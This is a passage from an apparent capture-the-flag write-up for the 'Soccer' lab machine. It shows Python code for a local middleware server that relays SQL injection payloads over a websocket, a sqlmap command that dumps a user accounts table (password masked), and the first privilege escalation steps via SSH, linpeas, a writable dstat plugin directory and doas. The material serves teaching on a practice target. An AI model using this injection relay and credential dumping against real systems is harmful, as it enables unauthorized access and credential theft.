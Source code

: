 ```python
                        if payload:
                                content = send_ws(payload)
                        else:
                                content = 'No parameters specified!'

                        self.send_header("Content-type", content_type)
                        self.end_headers()
                        self.wfile.write(content.encode())
                        return

        class _TCPServer(TCPServer):
                allow_reuse_address = True

        httpd = _TCPServer(host_port, CustomHandler)
        httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
        middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
        pass
```

**Dumping Passwords**  
```bash
sqlmap -u "http://localhost:8081/?id=66570" --batch -D soccer_db -T accounts --dump
```

```bash
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | XXXXXXXXXXXXXXXXXXXX | player   |
+------+-------------------+----------------------+----------+
```

# Privilege Escalation

## Enumeration

We can use the credentials obtained through the database to connect as user **player** via **ssh**.  

Last but not least we'll run linpeas to check for anything that could be used for further privilege escalation.  
We don't see anythin interesting on the first look but notice a couple of things on a second look:  
- /usr/local/share/dstat is writeable to our user! That means we are able to create plugins
- /usr/local/bin/doas is installed
